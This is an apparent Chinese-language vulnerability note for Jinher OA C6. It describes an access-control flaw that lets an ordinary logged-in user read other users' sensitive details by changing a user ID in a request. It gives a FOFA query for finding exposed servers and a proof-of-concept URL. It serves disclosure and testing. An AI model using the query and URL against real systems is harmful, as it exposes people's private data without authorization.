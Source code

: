 # 金和OA C6 越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

> [!NOTE]
>
> 金和OA C6

## FOFA

> [!NOTE]
>
> app="Jinher-OA"

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

> [!NOTE]
>
> 注意 RY120330 需要为确定的其他的用户编号

![](image/jh-4.png)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA